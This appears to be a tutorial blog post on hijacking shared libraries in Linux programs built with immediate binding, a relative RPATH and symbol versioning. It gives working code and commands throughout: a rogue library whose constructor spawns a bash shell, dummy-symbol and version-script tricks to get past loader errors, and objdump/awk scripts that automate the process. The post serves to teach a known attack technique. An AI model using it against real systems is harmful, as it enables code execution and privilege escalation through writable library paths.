 ```yaml
---
title: Overriding shared libraries in immediately-bound executables on Linux
description: How to override shared libraries when the program employs symbol versioning and other non standard linking options.
tags: [shared, Linux, ld]
---
```


## Scenario

Imagine a vulnerable program that loads its shared libraries from a relative location (or any other path that is writable by the attacker), the common trick is to craft a shared library having the same name as one of those required by the program and include an *initializer* function that, say, drops a shell as soon as the library is loaded.

This works nicely if the program resolves the symbols *lazily* (the default), i.e., according to the program flow and not at loading time.

If that's not the case, the above attack is not feasible as the program expects all the known symbols to be present in the rogue library too[^dlopen].

As a bonus annoyance the program may expect to find version information attached to the symbols of a shared library, otherwise warnings are generated by the dynamic linker at runtime.

[^dlopen]: Note that the above doesn't apply if the shared library is loaded with `dlopen` using the `RTLD_NOW` option because the program doesn't have any compile-time knowledge of the symbols imported in that case.

## The vulnerable program

Let's start by writing a dummy vulnerable program containing all the tricks highlighted so far. The library exports a function that simply greets the caller:

```c
/* shared.c */
#include <stdio.h>

void greet() {
    printf("hello!\n");
}
```

While the program simply calls it:

```c
/* main.c */
void greet();

int main() {
    greet();
    return 0;
}
```

### Compiling the library with version information

In compiling the shared library we must add version information, this can be accomplished by creating a version script file[^ld-version] like the following:

```c
/* shared.version */
SHARED_1.0 {
    *;
};
```

And compiling with:

```console
$ gcc -fPIC -shared -Wl,--version-script=shared.version shared.c -o libshared.so
```

This basically tells the compiler to assign the `SHARED_1.0` version name to all the exported symbols in the library. We can check by inspecting the library with `objdump`:

```console
$ objdump -j .text -T libshared.so

libshared.so:     file format elf64-x86-64

DYNAMIC SYMBOL TABLE:
0000000000000710 g    DF .text	0000000000000012  SHARED_1.0  greet
```

[^ld-version]: More information [here](https://sourceware.org/binutils/docs/ld/VERSION.html).

### Compiling the program with immediate binding and custom RPATH

The program itself can be compiled with[^env-var]:

```console
$ gcc -L. -Wl,-rpath,. -Wl,-z,now -lshared main.c -o main
```

Relevant bits are:

- `-rpath,.` that sets the runtime library search path (`RPATH`) to the working directory from where the program has been run (for the sake of the example);

- `-z,now` that enables immediate binding.

Again, `objdump` allows to check that everything is as expected:

```console
$ objdump -x main | grep 'BIND_NOW\|RPATH'
  RPATH                .
  BIND_NOW             0x0000000000000000
```

[^env-var]: It is likewise possible to avoid compiler options and run the program with the `LD_BIND_NOW=0` and `LD_LIBRARY_PATH=.`environment variables set instead.

## Naive approach

The simplest attempt to override `libshared.so` requires to write something like this:

```c
/* override.c */
#include <stdio.h>
#include <unistd.h>

__attribute__((constructor))
void shell() {
    printf("Starting a new shell...\n");
    execl("/bin/bash", "/bin/bash", NULL);
}
```

If we compile the above with:

```console
$ gcc -fPIC -shared override.c -o libshared.so
```

And run the program from the same directory we obtain the following errors:

```console
$ ./main
./main: ./libshared.so: no version information available (required by ./main)
./main: relocation error: ./main: symbol greet, version SHARED_1.0 not defined in file libshared.so with link time reference
```

As previously mentioned: a warning about the lack of version information, a relocation error and our payload is not executed.

## Fixing the relocation error

Since the error is about not finding the `greet` symbol, one could simply create a dummy symbol with that name within the override library. The actual type of the symbol is not important since we plan to run our initializer (that doesn't return) even before the actual program starts.

So just adding, for example, `int greet;` to `override.c` is enough for the linker which now runs our initializer:

```console
$ ./main
./main: ./libshared.so: no version information available (required by ./main)
Starting a new shell...
$ echo $SHLVL
2
```

## Removing the warning

This is a minor point, but for the sake of completeness one could wonder how to remove the version information warning. Apparently, with the compilation settings we used, `ld` simply checks that the version name *appears* in the library[^default-version], it doesn't check that every symbol exhibits the right value, so passing the following version script to the linker is enough:

```c
/* override.version */
SHARED_1.0 {};
```

Compile as usual with:

```console
$ gcc -fPIC -shared override.c -Wl,--version-script=override.version -o libshared.so
```

Notice how the warning is gone:

```console
$ ./main
Starting a new shell...
$ echo $SHLVL
2
```

[^default-version]: Using the `-Wl,--default-symver` option is not enough, rather, it causes a fatal runtime error.

## Automating the process

Real-life shared libraries contains many symbols and possibly multiple versions, so a manual approach is not feasible. Fortunately the process can be pretty easily scripted provided that either the target program or shared library is available.

The additional symbol definitions can be obtained with:

```console
$ objdump -j .text -T libshared.so | awk 'NF == 7 { printf "int %s;\n", $7 }' | tee symbols.h
int greet;
```

Similarly for the version script:

```console
$ objdump -j .text -T libshared.so | awk 'NF == 7 { printf "%s {};\n", $6 }' | sort -u | tee override.version
SHARED_1.0 {};
```

Now simply add `#include "symbols.h"` to `override.c` and compile as before.

The same information can be similarly extracted from the program executable by looking up the undefined symbols.
